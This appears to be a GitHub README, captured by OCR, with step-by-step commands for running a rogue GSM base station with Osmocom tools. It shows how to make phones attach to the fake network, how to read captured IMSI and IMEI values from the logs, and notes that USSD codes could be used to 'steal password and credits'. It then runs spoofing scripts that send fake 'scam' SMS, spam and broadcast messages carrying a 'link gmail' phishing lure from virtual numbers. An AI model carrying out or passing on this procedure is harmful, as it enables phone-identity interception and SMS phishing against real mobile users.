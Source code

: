 Launching the bts on debug mode
ADDING DEBUG MODE OPTIONS : --debug DRSL:DOML:DLAPDM
```
/usr/local/bin/osmo-bts-trx -s -c /etc/osmocom2/osmo-bts-trx.cfg --debug DRSL:DOML:DLAPDM
```
Have a look on the terminal at the command : /usr/local/bin/osmo-nitb --yes-i-really-want-to-run-prehistoric-software -s -C -c /etc/osmocom2/osmo-nitb.cfg -l /var/lib/osmocom/hlr.sqlite3  --debug=DRLL:DCC:DMM:DRR:DRSL:DNM  


  
Tape `*#*#4636#*#*` and choose GSM only on your Android phone  
Search GSM network (on your phone), associate with PLMN MCC 001 && MNC 01  
Have a look on log for capturing IMSI and IMEI  

  
Tape `*#001#` for finding your phone number (extension with osmo-bts)   
Have a look on the log about USSD: Own number requested  

  
Tape USSD `*100*123#`
Have a look on log of USSB : Unhandled USSD  (possible to steal password and credits)
  

ctrl+shift+T
```
cd osmo-nitb-scripts/scripts_spoof2
```
Tape `*#*#4636#*#*` and choose GSM only on your Android phone  
Search GSM network (on your phone), associate with PLMN MCC 001 && MNC 01  
Tape `*#001#` for finding your phone number (extension with osmo-bts)   
```
python2 show_subscribers.py 
```
You could find imsi and extension  
Create a virtual extension 0341220590 and send sms to existing extension eg : 164
```
python2 sms_send_source_dest_msg.py 0341220590 164 "link gmail"
```
You could find imsi and extension  
```
python2 show_subscribers.py 
```
Creating many extensions for sending a scam sms repeat 3 times
```
python2 sms_spam.py 164 3 "link gmail"
```
You could find imsi and extension  
```
python2 show_subscribers.py 
```
Sending a broadcast sms by using a virtual number as extension 165
```
python2 sms_broadcast.py 165 "link gmail"
```
You could find imsi and extension  
```
python2 show_subscribers.py 
```
